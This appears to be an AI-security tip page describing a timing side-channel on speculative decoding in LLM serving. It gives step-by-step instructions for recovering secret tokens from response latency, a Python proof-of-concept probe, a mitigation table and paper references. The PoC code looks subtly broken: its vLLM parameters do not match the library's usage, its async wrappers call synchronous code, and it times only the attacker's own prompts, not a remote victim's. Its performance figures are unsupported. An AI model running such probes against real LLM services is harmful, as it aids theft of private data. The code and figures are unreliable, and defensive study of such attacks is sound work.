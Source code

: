 # 🤖🔒 AI-Sec Tip — 2025-06-27

## “Draft-Leak”: a timing-oracle hiding inside **speculative decoding**

Speculative (a.k.a. *draft-and-verify*) decoding speeds up LLMs by letting a **small “draft” model** propose several tokens that a **large “target” model** then verifies in parallel. 
When the draft guesses wrong the target rolls back and recomputes, adding an RTT hiccup that betrays how many tokens were rejected. 
A remote observer can exploit this deterministic gap to **binary-search secret suffixes one token at a time—no privileged access required**.


### 🚀 Attack Steps (30-second cheatsheet)

1. **Baseline-RTT calibration** — fire a benign prompt of identical length and record the round-trip time (RTT) when every draft token is accepted; this is your acceptance floor.
2. **Secret masking** — embed the victim-controlled prefix plus **one masked token** (`<MASK>`) whose value you want to discover.
3. **Alphabet sweep** — iterate over a small alphabet (e.g., `0-f` or ASCII range) replacing `<MASK>` and send each probe; keep concurrency low to minimise network jitter.
4. **Latency ranking** — the candidate whose RTT ≈ baseline means all draft tokens were accepted; higher RTT indicates verifier roll-backs. Pick the minimum.
5. **Slide & repeat** — append the recovered token, move the `<MASK>` rightward, and repeat until the entire secret is exfiltrated (≈ *len(secret)* × |alphabet| probes).



![img](../assets/2025-06-27-draft-leak-timing-oracle.png)


### ⏱️ Proof-of-concept timing probe (vLLM ≥ 0.4.2)

```python
# draft_leak.py – measure acceptance vs. rejection RTT deltas
import time, asyncio, statistics
from vllm import LLM, SamplingParams

TARGET  = LLM(model="mistral-7b-instruct",
              draft_model="mistral-7b-mini",
              draft_speculation_k=8)        # enables speculative decoding
SPARAMS = SamplingParams(max_tokens=0)      # verify-only, no text needed

async def rtt(prompt):
    t0 = time.perf_counter_ns()
    _  = TARGET.generate([prompt], SPARAMS)
    return (time.perf_counter_ns() - t0) / 1e6  # ms

async def leak(secret_mask="••••"):
    alphabet, leaked = "0123456789abcdef", ""
    while "•" in secret_mask:
        lat = {c: await rtt(secret_mask.replace('•', c, 1)) for c in alphabet}
        guess = min(lat, key=lat.get)        # fastest ⇒ all tokens accepted
        secret_mask = secret_mask.replace('•', guess, 1)
        leaked += guess
        print("🔥 so far:", leaked)
    return leaked

asyncio.run(leak())
```

‼️**A 4-token secret behind an 8-token draft leaks in ≈ 64 probes: the latency delta between *fully accepted* and *fully rejected* drafts was \~4.6 ms on an A100 server, clearly visible over a WAN link.**


### 🛡️ Hardening cheatsheet

| Layer               | Mitigation                                                                                   | Overhead           |
| ------------------- | -------------------------------------------------------------------------------------------- | ------------------ |
| **Draft runner**    | **Limit speculative window** to ≤ 2 tokens (`draft_speculation_k=2`) so roll-backs are short | \~7 % slower       |
| **Target verifier** | **Constant-time replay** — recompute full draft path even on acceptance (crypto-style)       | +10 % GPU          |
| **Scheduler**       | **Noise injection** — co-schedule dummy verification jobs to blur RTT histogram              | negligible         |
| **Network proxy**   | **3-8 ms random jitter** before first packet; slashes timing-oracle SNR by 90 % in tests     | none on throughput |
| **Monitoring**      | **Alert on > 95 % acceptance clients** — oracle scripts spam easy tokens to maximise signal  | free               |



**The resources that I used to create this tip:**


[1]: ["Privacy Risks of Speculative Decoding in Large Language Models"](https://arxiv.org/pdf/2411.01076)

[2]: ["Remote Timing Attacks on Efficient Language Model Inference"](https://arxiv.org/html/2410.17175v1)

[3]: ["Wiretapping LLMs: Network Side-Channel Attacks on Interactive LLM Services"](https://eprint.iacr.org/2025/167)

[4]: ["Speculative Decoding - vLLM"](https://docs.vllm.ai/en/latest/features/spec_decode.html)

[5]: ["Decoding Speculative Decoding - ACL Anthology"](https://aclanthology.org/2025.naacl-long.328.pdf)

[6]: ["UThe Early Bird Catches the Leak: Unveiling Timing Side Channels in LLM Serving Systems"](https://arxiv.org/html/2409.20002v1)

[7]: ["Draft & Verify: Lossless Large Language Model Acceleration via Self-Speculative Decoding"](https://arxiv.org/abs/2309.08168)

[8]: ["Optimizing Speculative Decoding for Serving Large Language Models Using Goodput"](https://arxiv.org/html/2406.14066v1)


-EOF
